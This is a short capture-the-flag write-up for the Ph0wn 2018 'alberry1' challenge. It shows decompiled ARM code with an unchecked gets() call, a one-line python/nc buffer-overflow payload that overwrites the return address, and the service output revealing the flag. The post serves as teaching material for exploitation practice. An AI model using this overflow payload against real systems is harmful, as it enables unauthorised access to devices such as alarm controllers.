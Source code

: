 ```yaml
---
layout: post
title: "Ph0wn 2018 - alberry1"
mathjax: true

date: 2018-12-14
---
```


*Basic Stack buffer overflow in an arm binary*

<!--more-->

### Description

*TODO ADD*

### Details

Points:      ?

Category:    exploit

Validations: ?

### Solution

We were given a ELF binary file called [alberry1](/resources/2018/ph0wn/alberry1/alberry1).
The main function consist of reading a password to arm or disarm the alarm.

Reversing the checkPassword() function led to discover a buffer overflow:

```c
int checkPassword()
{
  int v0; // r0
  int result; // r0
  char v2; // [sp+4h] [bp-18h]

  gets(&v2); // BUFFER OVERFLOW
  v0 = strlen(&v2);
  hash2(&v2, v0, &hashBuffer);
  result = memcmp(&currentPasswd, &hashBuffer, 32);
  if ( !result )
    logged = 1;
  return result;
```

Looking in IDA pro shows that the buffer overflowed is 0x18 bytes long.

The exploit is:

```shell
 python2 -c 'print "A"*24 + "\x78\x15\x01\x00"' | nc 10.210.17.68 12345

############################################
# Welcome to Al Berry interface management #
############################################
#          Your alarm is *ARMED*           #
############################################

Password: 
Alarm disarmed
Your flag is: ph0wn{Enjoy_the_Silence}
```

Challenges resources are available in the [resources folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2018/ph0wn/alberry1)


